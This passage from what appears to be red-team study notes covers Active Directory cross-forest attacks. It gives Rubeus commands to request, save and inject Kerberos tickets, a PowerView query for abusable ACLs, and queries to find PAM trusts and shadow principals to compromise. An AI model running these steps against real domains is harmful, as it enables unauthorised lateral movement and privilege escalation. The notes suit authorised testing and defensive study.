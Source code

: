 ````
#### Request TGS
```
.\Rubeus.exe asktgs /service:cifs/<EXTERNAL FQDN> /domain:<EXTERNAL FQDN> /dc:<EXTERNAL DC FQDN> /ticket:<BASE64 TICKET> /nowrap
```
 
#### Write ticket to file
```
[System.IO.File]::WriteAllBytes("C:\Users\Administrator\Desktop\subsidiary.kirbi", [System.Convert]::FromBase64String("<BASE64 TICKET>"))
```
 
#### Then inject and use the ticket
```
.\Rubeus.exe /ticket:<TICKET BASE64>
.\Rubeus.exe /ticket:<FILE TO KIRBI FILE>
```
 
## ACLS
- Access to resources in a forest trust can also be provided without using FSPs using ACLs.
```
Find-InterestingDomainAcl -Domain <TRUST FOREST>
```
- Abuse ACL to other forest.

## Pam Trust
- PAM trust is usually enabled between a Bastion or Red forest and a production/user forest which it manages. 
- PAM trust provides the ability to access a forest with high privileges without using credentials of the current forest. Thus, better security for the bastion forest which is much desired.
- To achieve the above, Shadow Principals are created in the bastion domain which are then mapped to DA or EA groups SIDs in the production forest.

### Check if current domain is Bastion forest
#### Enumerate if the current domain is a bastion forest
- Run on the DC
- If there are trusts with the attributes ```ForestTransitive -eq $True``` and ```SIDFilteringQuarantined -eq $False``` check for Shadowprincipals. If there are then its a Bastion forest.
```
Get-ADTrust -Filter {(ForestTransitive -eq $True) and (SIDFilteringQuarantined -eq $False)}
```

#### Check which users are members of the shadow principals
- Run on the DC
```
Get-ADObject -SearchBase ("CN=Shadow Principal Configuration,CN=Services," + (Get-ADRootDSE).configurationNamingContext) -Filter * -Properties * | select Name,member,msDS-ShadowPrincipalSid | fl
```

### Check if current domain is managed by bastion forest
- Now, TrustAttributes is a very good indicator. ```TAPT (TRUST_ATTRIBUTE_PIM_TRUST)``` is ```0x00000400``` (1024 in decimal) for PAM/PIM trust. If this bit and ```TRUST_ATTRIBUTE_TREAT_AS_EXTERNAL (0x00000040)``` are set, the trust is a PAM trust. 
- A trust attribute of ```1096``` is for PAM ```(0x00000400)``` + External Trust ```(0x00000040)``` + Forest Transitive ```(0x00000008)```.
```
Get-ADTrust -Filter {(ForestTransitive -eq $True)}
```
 
### Abuse PAM trusts
- To abuse the PAM trust we must compromise users or groups who are part of the shadow security principals

### Enumerate shadow principals
````